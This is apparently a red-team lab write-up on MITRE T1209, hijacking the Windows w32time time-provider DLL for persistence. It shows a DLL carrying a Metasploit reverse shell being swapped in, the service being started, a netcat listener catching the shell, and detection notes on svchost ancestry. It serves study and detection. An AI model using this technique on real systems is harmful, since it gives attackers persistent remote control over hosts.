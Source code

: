 ```yaml
---
description: Persistence
---
```


# T1209: Hijacking Time Providers

## Execution

Service w32time depends on the DLL specified in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\`. 

If an attacker can replace the `w32time.dll` with his malicious DLL or modify the DllName value to point to his malicious binary, he can get that malicious code executed. 

In this lab, we will just swap out the `w32time.dll` with our own. It contains a metasploit reverse shell payload:

![](../../.gitbook/assets/time-registry.png)

Starting the w32time service:

```csharp
C:\Users\mantvydas\Start Menu\Programs\Startup>sc.exe start w32time

SERVICE_NAME: w32time
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 964
        FLAGS              :
```

Attacker receiving a reverse shell:

{% code title="attacker@local" %}
```csharp
root@~# nc -lvvp 443
listening on [any] 443 ...
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 64634
```
{% endcode %}

## Observations

The shell is running as a child of svchost which is expected as this is where all the services originate from:

![](../../.gitbook/assets/time-ancestry.png)

Note that the code is running under the context of `LOCAL SERVICE`:

![](../../.gitbook/assets/time-context.png)

This time and time again shows that binaries running off of svchost.exe, especially if they are rundll32 and are making network connections, should be investigated further.

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1209" %}

